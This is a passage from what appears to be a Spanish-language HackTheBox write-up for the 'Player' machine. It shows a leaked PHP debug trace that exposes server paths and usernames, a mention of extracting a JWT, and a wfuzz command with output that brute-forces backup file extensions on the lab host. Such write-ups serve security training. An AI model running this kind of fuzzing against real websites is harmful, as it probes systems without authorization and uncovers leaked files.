 ```null
    ["line"]=>
    int(3)
    ["function"]=>
    string(1) "b"
    ["args"]=>
    array(1) {
      [0]=>
      &string(5) "Glenn"
    }
  }
  [2]=>
  array(4) {
    ["file"]=>
    string(28) "/var/www/staging/contact.php"
    ["line"]=>
    int(11)
    ["function"]=>
    string(1) "a"
    ["args"]=>
    array(1) {
      [0]=>
      &string(5) "Peter"
    }
  }
}
Database connection failed.<html><br />Unknown variable user in /var/www/backup/service_config fatal error in /var/www/staging/fix.php
```

Se leakean la rutas ```/var/www/staging/contact.php```, ```/var/www/backup/service_config``` y ```/var/www/staging/fix.php```, los nombres de usuarios; ```Peter```, ```Glenn``` y ```Cleveland```. Antes había visto un archivo php en ```/launcher```, que me sirvió para extraer un JWT. En ocasiones, debido a malas prácticas se almacenan backups o copias en producción, que son accesibles teniendo el nombre. Fuzzeo por subextensiones sobre ```dee8dc8a47256c64630d803a4c40786c.php```

```null
wfuzz -c --hw=32 -t 200 -w /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.phpFUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.phpFUZZ
Total requests: 2450

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000359:   403        10 L     30 W       327 Ch      ".phps"                               
000001292:   404        9 L      33 W       322 Ch      ". T."                                
000001293:   404        9 L      33 W       323 Ch      ". php"                               
000001291:   404        9 L      34 W       343 Ch      ". EXTRAHOTELERO HOSPEDAJE"           

Total time: 0
Processed Requests: 2450
Filtered Requests: 2446
Requests/sec.: 0
```

